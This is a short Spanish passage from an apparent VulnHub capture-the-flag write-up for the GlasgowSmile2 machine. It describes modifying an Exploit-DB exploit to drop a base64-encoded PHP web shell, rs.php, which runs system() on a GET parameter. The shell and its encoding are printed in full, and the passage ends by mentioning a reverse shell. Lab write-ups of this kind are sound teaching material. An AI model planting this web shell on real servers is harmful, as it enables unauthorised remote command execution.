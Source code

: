 Utilizamos el siguiente [exploit](https://www.exploit-db.com/exploits/44448).

Modificamos el exploit para pasarle una cadena en base64 (con nuestro código php), la cual se desencripta y se guarda en el archivo `rs.php`.

```bash
❯ cat rs.php
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: rs.php
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php system($_GET['c']); ?>
───────┴───────────────────────────────

❯ base64 rs.php
PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOyA/Pgo=
```

![exploit](/assets/img/commons/vulnhub/GlasgowSmile2/exploit.png){: .center-image }

Ejecutamos.

![rs](/assets/img/commons/vulnhub/GlasgowSmile2/rs.png){: .center-image }

Validamos nuestro archivo y generamos la reverse shell.
